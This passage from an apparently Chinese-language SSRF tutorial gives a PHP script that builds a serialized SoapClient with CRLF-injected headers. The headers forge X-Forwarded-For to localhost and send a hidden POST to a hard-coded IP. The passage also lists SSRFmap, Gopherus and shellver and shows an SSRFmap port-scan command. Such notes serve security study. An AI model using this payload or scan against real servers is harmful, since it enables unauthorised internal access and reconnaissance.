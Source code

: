 ```php
<?php
$target = 'http://123.206.216.198/bbb.php';
$post_string = 'a=b&flag=aaa';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);
echo $aaa;
?>
```







## 0x11 利用工具

SSRFmap - https://github.com/swisskyrepo/SSRFmap
Gopherus - https://github.com/tarunkant/Gopherus
shellver - https://github.com/0xR0/shellver

sec_tools/common-gopher-tcp-stream/ -https://github.com/firebroo/sec_tools/tree/master/common-gopher-tcp-stream





### SSRFmap

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.





#### 端口扫描

```sh
python3 ssrfmap.py -r data/1.txt -p handler -m portscan  | grep open 
```







#### Summary
